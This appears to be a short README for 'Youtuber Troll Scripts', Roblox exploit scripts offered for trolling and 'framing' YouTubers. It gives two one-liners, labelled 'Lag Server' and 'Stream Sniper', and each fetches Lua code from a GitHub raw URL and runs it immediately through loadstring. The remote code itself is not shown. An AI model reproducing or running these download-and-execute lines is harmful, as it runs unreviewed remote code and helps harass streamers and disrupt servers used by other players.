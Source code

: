 # Youtuber Troll Scripts
Troll and frame youtubrs with this script!
# Loadstrings:
*Lag Server:*                                    
`loadstring(game:HttpGetAsync("https://raw.githubusercontent.com/ChatBypass/Youtubr_Troll_Scripts/main/Lag Server"))()`      
*Stream Sniper*                                             
`loadstring(game:HttpGetAsync("https://raw.githubusercontent.com/ChatBypass/Youtubr_Troll_Scripts/main/Stream Sniper"))()`
